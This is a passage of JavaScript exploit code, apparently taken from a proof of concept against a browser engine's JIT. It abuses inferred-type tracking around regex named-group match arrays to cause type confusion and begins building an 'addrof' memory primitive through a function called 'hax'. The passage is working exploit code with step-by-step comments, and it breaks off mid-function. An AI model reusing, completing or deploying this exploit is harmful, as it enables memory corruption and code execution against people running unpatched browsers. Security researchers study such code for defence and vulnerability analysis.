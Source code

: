 ```javascript
        // previous executions (which all ended up transitioning to SlowPutArrayStorage).
        let a = new Array;
        if (i > 0) {
            // Convert the array to SlowPutArrayStorage by installing a prototype with indexed
            // accessors. This object can, however, not be used directly as the prototype is
            // different and thus the structure has changed.
            Object.setPrototypeOf(a, protoWithIndexedAccessors);
        }
        return a;
    }
    for (let i = 1; i < 10000; i++) {
        helper(i);
    }
    return helper(0);
}
// Helper object using inferred types.
let obj = {};
obj.inlineProperty1 = 1337;
obj.inlineProperty2 = 1338;
obj.oolProperty1 = objX;        // Inferred type of 'oolProperty1' will be ObjectWithStructure S1.
// 'obj' now has structure S3.
// Create the same structure (S4) that will later (when having a bad time) be used as
// regExpMatchesArrayWithGroupsStructure. Since property values are assigned during the initial
// structure transition, inferred types for all property values are created.
let a = createArrayWithSlowPutArrayStorage();       // a has Structure S4,
a.index = 42;                                       // S5,
a.input = "foobar";                                 // S6,
a.groups = obj;                                     // and S7.
// The inferred type for the .groups property will be ObjectWithStructure S3.
// Inferred type for this property will be ObjectWithStructure S7.
global = a;
// Must assign twice so the JIT uses the inferred type instead of assuming that
// the property is constant and installing a replacement watchpoint to
// deoptimize whenever the property is replaced.
global = a;
// Have a bad time. This will attempt to recreate the global regExpMatchesArrayWithGroupsStructure
// (to use an array with SlowPutArrayStorage), but since the same structure transitions were
// performed before, it will actually reuse the existing structure S7. As no property values are
// assigned, all inferred types for structure S7 will still be valid.
Object.defineProperty(Array.prototype, 1337, { get() { return 1337; } });
// Compile a function that uses the inferred value of 'global' to omit type checks.
function hax(val) {
  var re = global.groups.oolProperty1.objProperty.fetchme;
  global.groups.oolProperty1.objProperty.fetchme = val;
  return re;
}
for (let i = 0; i < 10000; i++) {
    hax(i2jsv(0x0108211700001001 + i));
}
// Create an ObjectWithStructure S7 which violates the inferred type of .groups (and potentially
// other properties) due to createRegExpMatchesArray using putDirect.
let match = "hax".match(/(?<oolProperty1>hax)/);
// match.groups has structure S8 and so assignments to it won't invalidate inferred types of S7.
match.groups.oolProperty1 = objY;       // This property overlaps with oolProperty1 of structure S3.
// The inferred type for 'global' is ObjectWithStructure S4 so watchpoints will not be fired.
global = match;
// backup original structure
let backup = hax(1);
let addrof = function (obj) {
  hax(backup);
  victim[0] = obj;
  hax(i2jsv(0x0108211700001000));
```